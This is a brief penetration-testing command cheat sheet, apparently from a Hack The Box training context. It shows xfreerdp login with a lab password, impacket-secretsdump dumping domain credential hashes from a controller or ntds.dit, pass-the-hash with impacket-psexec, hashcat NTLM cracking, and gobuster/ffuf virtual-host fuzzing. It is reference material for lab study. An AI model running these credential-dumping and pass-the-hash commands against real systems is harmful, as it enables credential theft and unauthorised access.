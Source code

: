 Below are just examples of how to execute each of the commands that I would normally use.
# XfreeRDP
```
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/p3ta/ /dynamic-resolution
```
# Impacket
Secretsdump
```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```
```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit 
```
```
impacket-secretsdump local -system registry/SYSTEM -ntds Active\ Directory/ntds.dit
```

PSexec
```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```
# Hashcat
NTLM
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
# Gobuster
VHOST
```
gobuster vhost -u mailroom.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# FFUF
VHOST
```
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://mailroom.htb/ -H "Host: FUZZ.mailroom.htb" -fs 7748
```
